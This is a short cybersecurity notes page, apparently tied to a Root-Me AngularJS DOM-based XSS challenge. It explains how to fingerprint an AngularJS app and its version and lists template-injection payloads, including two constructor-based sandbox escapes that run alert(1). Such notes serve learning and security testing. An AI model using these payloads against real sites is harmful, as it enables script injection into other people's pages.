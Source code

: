 # AngularJS

[![xss_dom_based_angularjs](../../../../../cybersecurity/_badges/rootme/web_client/xss_dom_based_angularjs.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-AngularJS)

<div class="row row-cols-lg-2"><div>

Angular is a framework to build client applications in HTML and Typescript. You can recognize an angular application with the `ng-app`:

```html!
<body ng-app="" ng-version="1.8.2">
```

Notice that the version is also exposed. Multiple vulnerabilities can be found in older versions. A common vulnerability is [XSS](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md).

```html!
{{ 21+21 }}
{{ $new.constructor("alert(1)")() }}
{{ constructor.constructor("alert(1)")() }}
```
</div><div>
</div></div>